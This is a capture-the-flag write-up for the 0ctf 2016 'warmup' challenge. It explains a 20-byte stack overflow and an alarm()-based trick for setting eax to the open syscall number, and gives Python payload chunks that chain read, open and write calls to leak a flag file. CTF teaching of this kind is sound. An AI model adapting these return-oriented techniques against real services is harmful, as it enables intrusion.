 date: 2016-03-14 00:00:00
modified: 2016-03-14 00:00:00
title: 0ctf 2016 - Warmup write-up
author: hugsy
tags: pwn,gef,ida,0ctf-2016,x86
category: ctf

I participated to [0ctf](https://ctftime.org/team/4419/) but only had time to play for
the reversing challenge `trace` (write-up coming up soon) during the competition
time.

I did this challenge only for fun after the CTF was over so I do not know the
flag, and since I found it interesting, I decided to write a quick write-up.

And kudos to all teams who solved it !


### Info ###


```bash
gef➤  !file ./warmup
./warmup: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, BuildID[sha1]=c1791030f336fcc9cda1da8dc3a3f8a70d930a11, stripped
gef➤  checksec warmup
[+] checksec for 'warmup'
Canary:                                           No
NX Support:                                       Yes
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    No
Full RelRO:                                       No
```

Pretty stripped down file, very small (which seemed weird for a statically
linked file). Stack canary and PIE are not on, but NX is.


### Vulnerability ###

The binary is really small, does not do much either, so the vulnerability is
quite easy to find and trigger.

![vuln](https://i.imgur.com/jpU2YsD.png)

At 0x08048174, We have a `read(socket, buffer, 52)` where buffer can only
contain 32 bytes, so we have a classic stack overflow. A part of the challenge
is however due to the fact that our controlled part is quite limited
(i.e. 52-32=20 bytes=5 DWORD).



### Exploitation ###

In addition to not having a lot of gadgets (the source was written in pure
assembly), no libc, etc. 0ctf organizers added that

```
notice: This service is protected by a sandbox, you can only read the flag at /home/warmup/flag
```

Meaning: we cannot simply write `/bin/sh` somewhere in memory, set `eax` to 11
and simply use a gadget to set `ebx`, `ecx`, `edx` to value loaded from the
stack. We have to go all the way to open, read, write back the value of the flag
located in `/home/warmup/flag`.

This lead to a much funkier way to exploit.


#### Objective ####

The objective here seems pretty straight forward. We need to :

   1. Write `/tmp/flag` in a predictable and writable location ( anywhere in the
   `.data` section will do just fine).
   1. Forge a `sys_open(flag, RWX)` gadget
   1. Forge a `sys_read(fd, another_writeable_location, 50)` gadget
   1. Forge a `sys_write(socket, another_writeable_location, 50)`

And it is done! In theory it seems pretty easy, but it took me a few hours
(never underestimate a challenge ☺).


#### Interesting gadgets ####

What the binary provides us with are gadgets to read and write:
```bash
--read
.text:0804811D                 mov     eax, 3
.text:08048122                 mov     ebx, [esp+fd]   ; fd
.text:08048126                 mov     ecx, [esp+addr] ; addr
.text:0804812A                 mov     edx, [esp+len]  ; len
.text:0804812E                 int     80h             ; LINUX - sys_read

--write
.text:08048135                 mov     eax, 4
.text:0804813A                 mov     ebx, [esp+fd]   ; fd
.text:0804813E                 mov     ecx, [esp+addr] ; addr
.text:08048142                 mov     edx, [esp+len]  ; len
.text:08048146                 int     80h             ; LINUX - sys_write
```

Where the arguments are read from the limited stack we control.

However, we do not have an `sys_open` gadget, but since we can control `ebx`
from the stack, all we need is to find a way to set `eax` to
[5](https://raw.githubusercontent.com/torvalds/linux/master/arch/x86/entry/syscalls/syscall_32.tbl)

My original intention was to force a call to `sys_read` from our socket, and
send 5 bytes of junk data so that the syscall can return with the right value in
`eax`. Unfortunately, we do not have enough space in our stack to chain correctly our
`read` arguments, then jump into it and finally jump back to our next gadget ☹ .

After quite some time, I realized that `warmup` starts by initializing an alarm
for 10 seconds (which when SIGALARM is received, will kill the
program).
```bash
.text:0804810D                 mov     eax, 27
.text:08048112                 mov     ebx, [esp+seconds] ; seconds
.text:08048116                 int     80h             ; LINUX - sys_alarm
```

Nevertheless, this could be valuable to us, because RTFM:

>
>       alarm()  returns  the number of seconds remaining until any previously
>       scheduled alarm was due to be delivered, or zero if there was no
>       previously scheduled alarm.
>

That means that if we jump a second time into the gadget @0x0804810D (i.e. call
`alarm()` a second time), `eax` will be populated with whatever time is left
before SIGALRM is issued!
And since `alarm()` can take any integer as argument, our syscall will not
return as an error! So by sleeping 5 seconds, `sys_alarm` will return with `eax`
set to `NR_sys_open` (5), and we can use the stack to populate the other
registers required for `sys_open`!


#### Attack ####

Again, because of our limited space in the stack, we need to trigger the
vulnerability multiple times. To do, we have to perform only one operation, then
return to the original function (`0x0804815A`), and let the control flow repeat
again until it re-hit our vulnerability.

So let's go back to the steps we set in the *Objective* part for the
exploitation part:

Writing `/tmp/flag` in a predictable and writable location can be done with the
following gadgets:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function) # ret back to vuln function
    p+= i_s(0) # fd
    p+= i_s(writable_addr) # addr
    p+= i_s(len(flag_path)) # len
    s.write(p)
    s.read_until("Good Luck!\n")
```

Now we have to sleep !! ☺
```python
    time.sleep(5)
```

Now we can send our second payload, to call `alarm`, setting `eax` to
`NR_sys_open`, and append the other arguments:
```python
    p = "A"*32
    p+= i_s(sys_alarm)
    p+= i_s(set_ebx_ecx_edx_int80)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(writable_addr)
    p+= i_s(7) # READ|WRITE|EXECUTE
    s.write(p)
    s.read_until("Good Luck!\n")
```

We have now a file descriptor open to our flag file! Let's read its content:
```python
    p = "A"*32
    p+= i_s(sys_read)
    p+= i_s(ret_to_orginal_function)
    p+= i_s(5) # file_fd
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
    s.read_until("Good Luck!\n")
```

... And write it back to our socket (and exit cleanly, just because):
```python
    p = "A"*32
    p+= i_s(sys_write)
    p+= i_s(sys_exit)
    p+= i_s(1) # fd stdout
    p+= i_s(writable_addr2)
    p+= i_s(20)
    s.write(p)
```

This write-up does not give justice to the challenge, making it look easy. But
it was not. I really like how you are made to create really inventive and neat
technique for subverting existing calls to set up the structure the exact way
you want it.

For those who want, the full exploit script is
[here](https://gist.github.com/hugsy/8e31ddc61dba7d4e7c1f). But again, it was
not tested against the game server.

Another good lesson to pay attention to details...
